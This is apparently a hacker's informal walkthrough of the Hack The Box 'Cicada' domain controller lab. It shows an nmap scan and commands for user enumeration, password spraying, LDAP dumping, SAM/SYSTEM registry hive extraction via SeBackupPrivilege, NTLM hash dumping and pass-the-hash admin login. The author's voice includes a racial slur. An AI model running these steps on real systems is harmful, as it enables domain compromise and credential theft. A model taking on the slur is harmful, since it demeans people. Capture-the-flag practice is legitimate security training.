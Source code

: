 ### Scan
```
Nmap scan report for 10.10.11.35
Host is up (0.12s latency).
Not shown: 65522 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-03 23:26:01Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
57094/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-10-03T23:26:51
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 373.81 seconds

```
### Enum
Dealing with Domain Controller!
```
Cicada$M6Corpb*@Lp#nZp!8
```


`nxc smb 10.10.11.35 -u 'null' -p '' --rid-brute` Elite way to brute users for dc

holy fuck nxc `nxc smb 10.10.11.35 -u /home/li0t/Desktop/HTB/Cicada/users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`

ldapdomaindump underrated goat? `ldapdomaindump --user cicada.htb\\michael.wrightson --password 'Cicada$M6Corpb*@Lp#nZp!8' -m 10.10.11.35` make sure to do in specified dir because it outputs json and html files.

creds for david! ![Image](/assets/Screenshot 2024-10-04 at 11.48.52 AM.png) `aRt$Lp#7t*VQ!3`

Backup script in DEv

emily creds (a lot of lateral, no?) `emily.oscars` `Q!3@Lp#M6b*7t*Vt`

evilwinrm with emily creds. whoami /priv reveals SEbackuppriv!

I couldnt get og blackfield method to work, so found easier way 
```
reg save hklm\sam C:\temp\SAM
reg save hklm\system C:\temp\SYSTEM
```

then, make sure in correct dir, 
`download .\SAM` and `download .\SYSTEM`

copied correctly ![Image](/assets/Screenshot 2024-10-04 at 12.24.12 PM.png) 

get NTLM hashes with `python3 secretsdump.py -system SYSTEM -sam SAM LOCAL`. make sure to copy correct secrets dump to dir

![Image](/assets/Screenshot 2024-10-04 at 12.27.28 PM.png)

now pass that hash nigga `evil-winrm -i 10.10.11.35 -u "administrator" -H '2b87e7c93a3e8a0ea4a581937016f341'`

boom ![Image](/assets/Screenshot 2024-10-04 at 12.28.03 PM.png)






